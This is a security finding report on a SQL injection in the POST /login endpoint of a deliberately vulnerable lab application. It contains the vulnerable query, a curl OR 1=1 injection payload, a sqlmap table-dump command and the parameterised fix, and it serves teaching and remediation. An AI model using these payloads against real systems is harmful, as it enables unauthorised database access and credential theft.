

# SQLi-01 — SQL Injection in Login Endpoint

## 1. Vulnerability Name
SQL Injection (Boolean-Based Blind / Time-Based Blind / Error-Based / UNION) — `POST /login`

## 2. Brief Description
The `email` parameter in the login request is interpolated directly into a SQL query without parameterisation. An unauthenticated attacker can read the entire database — including all password hashes and the `isAdmin` flag — using boolean-based blind, time-based blind, error-based, and UNION techniques.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: sqlmap 1.10#stable, curl
- User / test context: **no authentication required** (public endpoint)
- Database: PostgreSQL 15
- Endpoint: `POST http://localhost:3000/login`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/auth.js`, line ~36:
```js
const sql = `SELECT id, isAdmin, email, password FROM users WHERE email = '${email}'`;
```

### Manual verification (curl)
```bash
# Always returns a row — classic OR 1=1
curl -s -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"nonexistent'\'' OR 1=1--","password":"anything"}'
# Response: {"error":"Invalid password"} → confirms the query returned a row
```

### sqlmap — dump users table
```bash
sqlmap -u "http://localhost:3000/login" \
  --data='{"email":"test@test.com","password":"test"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  -p email \
  --dbms=PostgreSQL \
  -T users \
  -C id,username,email,password,isadmin \
  --dump \
  --level=3 --risk=2 \
  --batch
```

## 5. Evidence (Artifacts)

See: [`artifacts/sqlmap_output.txt`](artifacts/sqlmap_output.txt)

Extracted rows from `users` table (excerpt):

| id | username | email | password (bcrypt) | isadmin |
|----|----------|-------|-------------------|---------|
| 1  | admin    | admin@smvwa.local | `$2b$10$…` | true |
| 2  | alice    | alice@smvwa.local | `$2b$10$…` | false |
| 3  | bob      | bob@smvwa.local   | `$2b$10$…` | false |

## 6. Impact (CIA + Business)
- **Confidentiality:** Full dump of the `users` table — password hashes, emails, admin flag. Enables offline brute-force.
- **Integrity:** Stacked queries allow data modification (UPDATE/DELETE).
- **Availability:** DROP TABLE possible if the DB role has sufficient privileges.
- **Business impact:** Admin account takeover = full application compromise. No authentication required drastically raises exploitability.

## 7. Risk Rating (CVSS 3.1)
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Score: 9.8 — CRITICAL
```
## 8. Recommended Mitigation
Replace string interpolation with parameterised queries:
```js
// BEFORE (vulnerable):
const sql = `SELECT id, isAdmin, email, password FROM users WHERE email = '${email}'`;

// AFTER (safe):
const sql = 'SELECT id, isAdmin, email, password FROM users WHERE email = $1';
const result = await pool.query(sql, [email]);
```

## 9. Remediation Guidance
1. **Immediate:** change the query in `routes/auth.js` to a parameterised form (`$1`).
2. Add server-side email format validation (`validator.isEmail()`).
3. Enforce rate limiting on auth endpoints (e.g. max 5 attempts/min per IP).
4. Add semgrep rule `javascript.lang.security.audit.sqli.*` to the CI/CD pipeline.
5. Verify DB role privileges — the application user must not have `SUPERUSER`.
